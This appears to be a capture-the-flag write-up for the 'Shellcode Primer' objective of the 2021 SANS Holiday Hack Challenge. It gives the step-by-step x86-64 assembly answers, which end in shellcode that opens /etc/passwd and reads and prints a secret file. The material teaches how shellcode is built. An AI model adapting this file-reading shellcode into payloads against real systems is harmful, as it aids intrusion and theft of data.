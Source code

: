 # Objective 6: Shellcode Primer
**Location: Jack's Office, Frost Tower, 16<sup>th</sup> Floor, https://tracer.kringlecastle.com/**

**Elf: Ruby Cyster**

**Hints provided by Chimney Scissorsticks after completion of [Holiday Hero](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Holiday%20Hero.md)**

This objective is a small training in x86 assembly language (basics and performing system calls). The background is to be able to create shellcode payloads to be used in system attacks.

1. Introduction
2. Loops
3. Getting Started
```asm
ret
```
4. Returning a Value
```asm
mov rax,1337  ; return value
ret
```
5. System Calls
```asm
mov rax,60    ; sys_exit
mov rdi,99    ; return code
syscall
```
6. Calling Into the Void
7. Getting RIP
```asm
call place_below_the_nop
nop
place_below_the_nop:
pop rax       ; pop pointer to NOP from stack
ret
```
8. Hello, World!
```asm
call go
db 'Hello World',0
go:
pop rax       ; pop pointer to string from stack
ret
```
9. Hello World!!
```asm
call go
db 'Hello World!',0
go:
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
pop rsi       ; pop pointer to buffer from stack
mov rdx,12    ; 12 bytes
syscall
ret
```
10. Opening a File
```asm
call go
db '/etc/passwd',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
ret
```
11. Reading a File
```asm
call go
db '/var/northpolesecrets.txt',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
mov rdi,rax   ; file descriptor returned from sys_open (in rax)
mov rax,0     ; sys_read
mov rsi,rsp   ; pointer to buffer on stack
mov rdx,1000; 1000 bytes to read
syscall
mov rdx,rax   ; number of bytes read returned by sys_read (in rax)
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
mov rsi,rsp   ; pointer to buffer on stack
syscall
mov rax,60    ; sys_exit
mov rdi,0     ; return code
syscall
```
The content of the file from step 11 is "Secret to KringleCon success: all of our speakers and organizers, providing the gift of **cyber security knowledge**, free to the community."

**Achievement: Shellcode Primer**

**Hint: Printer Firmware**

**Hint: Hash Extension Attacks**

**Hint: Dropping Files**

